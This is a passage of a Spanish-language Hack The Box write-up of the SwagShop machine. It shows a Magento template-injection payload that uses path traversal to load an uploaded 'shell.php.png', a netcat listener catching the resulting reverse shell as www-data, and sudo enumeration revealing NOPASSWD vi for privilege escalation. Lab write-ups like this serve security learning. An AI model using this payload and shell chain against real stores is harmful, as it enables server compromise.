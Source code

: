 Agregamos un nuevo template en **Add New Template** modificando los siguiente parámetros:
- **Template Name**: Lo que nosotros queramos, para este caso Shell.
- **Template Subject**: Lo que nosotros queramos, para este caso Shell.
- **Template Content**: Borramos lo que contiene y escribimos lo siguiente:

**\{\{block type='core/template' template='../../../../../..//media/catalog/category/shell.php.png'\}\}**

![](/assets/images/htb-swagshop/swagshop-web9.png)

Antes de darle en la parte de **Preview Template** vamos a ponernos en escucha por el puerto 443:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.140] 37154
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya tenemos acceso a la máquina y para trabajar más comodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Si accemos a la carpeta del usuario **haris** vemos que podemos visualizar la flag (user.txt); asi que ahora vamos a enumerar un poco el sistema para ver de que forma nos convertimos en **root**.

```bash
www-data@swagshop:/home/haris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/home/haris$
```
